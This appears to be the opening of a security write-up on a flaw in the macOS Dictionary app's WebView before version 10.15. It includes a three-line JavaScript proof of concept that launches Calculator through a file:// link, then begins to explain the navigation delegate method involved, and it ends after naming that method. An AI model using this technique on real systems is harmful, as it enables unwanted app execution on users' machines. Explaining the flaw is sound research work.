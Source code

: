 In the WebView of Dictionary app (before 10.15), these few lines of javascript bring you a neat calculator.

```js
a = document.createElement('a');
a.href = 'file:///Applications/Calculator.app';
a.click()
```

![](/img/urs-JSS0bQiT9Wd9gwzA-A.png)

Wait, how does this even happen?

This delegate method handles navigation for the WebView:

`Dictionary -[DictionaryController webView:decidePolicyForNavigationAction:request:frame:decisionListener:]:`
